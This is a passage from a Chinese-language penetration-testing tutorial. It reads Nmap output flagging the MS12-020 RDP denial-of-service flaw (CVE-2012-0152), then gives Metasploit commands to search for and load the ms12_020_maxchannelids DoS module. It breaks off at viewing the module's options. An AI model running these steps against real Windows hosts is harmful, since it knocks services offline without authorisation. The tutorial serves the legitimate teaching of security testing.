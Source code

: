 Nmap done: 1 IP address (1 host up) scanned in 42.70 seconds
</code></pre><p>可以通过上述扫描结果得知：</p>
<blockquote>
<ul>
<li><code>ms12-020</code>
这个漏洞编号的State: VULNERABLE，即为可用</li>
</ul>
</blockquote>
<p>漏洞描述:</p>
<pre><code>BUGTRAQ ID: 52354 CVE ID: CVE-2012-0152 远程桌面协议（RDP, Remote Desktop Protocol）是一个多通道（multi-channel）的协议，让用户（客户端或称“本地电脑”）连上提供微软终端机服务的电脑（服务器端或称“远程电脑”）。 Windows在处理某些RDP报文时Terminal Server 存在错误，可被利用造成服务停止响应。
</code></pre><p>最后我们会用Metasploit的<code>search</code>功能找到对应的漏洞编号`ms12-020加以利用。具体利用方式将在下面介绍。</p>
<h4 id="-2-">步骤2：载入相应漏洞模块并配置参数</h4>
<p>首先打开命令行输入以下命令打开metasploit：</p>
<pre><code class="lang-`">msfconsole
</code></pre>
<p>进入msf之后，使用<code>search 漏洞编号</code>来查找相关模块：</p>
<pre><code>search ms12
</code></pre><p><img src="picture/img (39).png" alt="resources/files/picture/fa7da5959bfd7d06/Section_1500465569000.jpg"></p>
<p>如上图我们搜索到了该漏洞编号的对应漏洞利用模块，
模块名为：<code>use auxiliary/dos/windows/rdp/ms12_020_maxchannelids</code></p>
<p>使用<code>use 模块名</code>来进入相关模块：</p>
<pre><code>use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
</code></pre><p>进入该模块后，使用<code>show options</code>来查看需要设置的相关参数：</p>
<pre><code>show options